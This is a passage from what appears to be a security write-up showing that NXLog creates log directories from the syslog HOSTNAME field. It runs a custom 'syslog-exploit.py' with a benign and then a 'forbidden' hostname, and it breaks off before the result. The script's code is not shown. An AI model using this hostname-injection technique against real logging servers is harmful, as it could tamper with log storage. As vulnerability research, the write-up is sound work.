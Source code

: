 ````text
nov. 29 17:58:48 DEB-TEST nxlog[1312]: .
nov. 29 17:58:48 DEB-TEST systemd[1]: Started LSB: logging daemon.
````

Check :
````bash
lsof -i :514
````

Return :
````
nxlog   1323 nxlog   18u  IPv4  21321      0t0  UDP localhost:syslog
nxlog   1323 nxlog   19u  IPv4  21324      0t0  TCP localhost:shell (LISTEN)
````

Ok great !

---

### 2.1.2 Test :
With my python script, I can just send a Syslog message to test if the Nxlog service creates a directory. 

The name of the directory is based on the **HOSTNAME** field of the Syslog payload. (See configuration file)

So :
````bash
./syslog-exploit.py -ip 192.168.1.55 -os 3
````

The third option specifies **123soleil** hostname in Syslog payload.

So :
````bash
ls /var/log/nxlog
123soleil  nxlog.log

cat /var/log/nxlog/123soleil/123soleil.log
<30>Sep 14 14:09:09 123soleil dhcp service[warning] 110 Silence is golden
````

Ok, Nxlog server and Syslog client work !

---

### 2.1.3 Exploit :

Now if I specify a hostname with a forbidden name :
````bash
./syslog-exploit.py -ip 192.168.1.55 -os 1
````

In Nxlog internal log :
````bash
cat /var/log/nxlog/nxlog.log
````
